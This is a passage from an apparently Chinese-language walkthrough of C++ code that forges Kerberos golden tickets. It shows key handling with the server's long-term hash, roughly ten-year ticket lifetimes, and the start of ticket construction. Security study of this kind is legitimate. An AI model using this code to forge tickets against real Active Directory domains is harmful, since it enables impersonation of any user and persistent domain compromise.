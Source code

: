```c++
		wprintf(L"   * Golden ticket for '%s @ %s' successfully submitted for current session.\n", lpUser, lpDomain);
	}
	return status;
}
```

## Initialize Secret Key and Set Ticket Time

`KerberosGolden()` 函数首先通过 `CDLocateCSystem()` 函数找到 `dwKeyType` 参数指定的加密类型的加密系统，并存储在 `pCSystem` 结构体中。然后将用户提交的 Key 转换为大小为 `pCSystem->KeySize` 的 Hex 格式，如下所示。

```c++
status = NT_SUCCESS(CDLocateCSystem(dwKeyType, &pCSystem));
if (!status)
{
	wprintf(L"[-] CDLocateCSystem Error [%u].\n", GetLastError());
    return status;
}

if (StringToHex(lpKey, Key, pCSystem->KeySize))
{
	// ...
}
```

这里的 Key 也就是服务器的 Long-term Key（长期密钥），用于后续对 PAC 结构签名和加密票据的 EncTicketPart 部分，一般是服务器的哈希值。

然后，需要为伪造的票据设置三个时间：starttime、endtime 和 renew-till，分别对应票证有效的起始时间、票据将过期的时间和票证的绝对到期时间，如下所示。

```c++
GetSystemTimeAsFileTime(&lifeTimeData.TicketStart);
*(PULONGLONG)&lifeTimeData.TicketStart -= *(PULONGLONG)&lifeTimeData.TicketStart % 10000000;
lifeTimeData.TicketRenew = lifeTimeData.TicketEnd = lifeTimeData.TicketStart;
*(PULONGLONG)&lifeTimeData.TicketEnd += (ULONGLONG)10000000 * 60 * wcstoul(L"5256000", NULL, 0);
*(PULONGLONG)&lifeTimeData.TicketRenew += (ULONGLONG)10000000 * 60 * wcstoul(L"5256000", NULL, 0);
```

然后将上述信息全部传入 `KerberosGenerateGoldenData()` 函数，正式进入伪造票据的过程，该函数定义如下。

```c++
PBERVAL KerberosGenerateGoldenData(LPCWSTR lpUserName, LPCWSTR lpDomainName, LPCWSTR lpServiceName, LPCWSTR lpTargetName, PKERBEROS_LIFETIME_DATA pLifeTimeData, LPCBYTE Key, DWORD dwKeySize, DWORD dwKeyType, PISID pSid, LPCWSTR lpLogonDomainName)
{
    // A KERBEROS_TICKET structure is defined for temporary storage of ticket information.
	KERBEROS_TICKET ticket = { 0 };
	PKERB_VALIDATION_INFO pValidationInfo = NULL;
	PPACTYPE pacType = NULL;
	DWORD pacTypeSize = 0;
	LONG SignatureType;
	PBERVAL BerAppEncTicketPart = NULL, BerAppKrbCred = NULL;
	
    // These three times for temporarily storing tickets: starttime, endtime and renew-till.
	ticket.StartTime = pLifeTimeData->TicketStart;
	ticket.EndTime = pLifeTimeData->TicketEnd;
	ticket.RenewUntil = pLifeTimeData->TicketRenew;
	
    // The cname of the temporary storage ticket.
	if (ticket.ClientName = (PKERB_EXTERNAL_NAME)LocalAlloc(LPTR, sizeof(KERB_EXTERNAL_NAME)))
	{
		ticket.ClientName->NameCount = 1;
		ticket.ClientName->NameType = KRB_NT_PRINCIPAL;
		RtlInitUnicodeString(&ticket.ClientName->Names[0], lpUserName);
	}
	
```